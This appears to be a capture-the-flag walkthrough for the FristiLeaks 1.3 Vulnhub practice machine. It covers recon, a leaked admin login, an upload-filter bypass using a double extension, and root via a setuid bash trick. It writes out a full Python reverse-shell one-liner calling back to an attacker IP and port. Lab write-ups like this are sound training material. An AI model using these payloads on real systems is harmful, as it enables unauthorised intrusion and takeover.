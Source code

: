 # Fristi Leaks 1.3 - Vulnhub

# Recon

## Port / Service scan

`nmap -p- -T4 -sCV 192.168.163.144`

![image.png](images/image.png)

## Web ( 80 )

### Basic Enumeration

Identifying some technologies

`whatweb http://fristi.local/`

![image.png](images/image%201.png)

More information using a web extension

![image.png](images/image%202.png)

Found the directory `/fristi` that leads to an admin panel

![image.png](images/image%203.png)

We have some base64 data

![image.png](images/image%204.png)

When trying to decode we can see that its an image because of the errors, so decode that into a `.png` file

`echo ‘base64-code’ | base64 -d > image.png`

![image.png](images/image%205.png)

Note: when inspecting the page we got a user

![image.png](images/image%206.png)

`eezeepz:keKkeKKeKKeKkEkkEk`

### Foothold

And we are logged in

![image.png](images/image%207.png)

When we try to upload a simple `.php` file we get an error

![image.png](images/image%208.png)

Once we try double extension technique we can bypass this protection, the named file is `shell.php.jpg`

To execute commands go to

`http://fristi.local/fristi/uploads/shell.php.jpg`

And we received a reverse shell

![image.png](images/image%209.png)

## Privilege Escalation

Inside `/var/www/` we have this `notes.txt` talking about the eezeepz home directory

![image.png](images/image%2010.png)

Another note

![image.png](images/image%2011.png)

It runs commands as admin, so i just injected a python reverse shell into `runthis` file

`echo '/usr/bin/python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.163.135\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"' > /tmp/runthis`

Some interesting base64 code

![image.png](images/image%2012.png)

It seems to be a hash

![image.png](images/image%2013.png)

Doing the inverse of this python code

![image.png](images/image%2014.png)

We get the password

`LetThereBeFristi!`

Now we can login as `frsitigod` user

`sudo -l`

![image.png](images/image%2015.png)

Inside that directory we have the history file and it gives some hints

![image.png](images/image%2016.png)

### Get root

`sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom chmod +s /bin/bash`

Now just run `/bin/bash -p`

![image.png](images/image%2017.png)
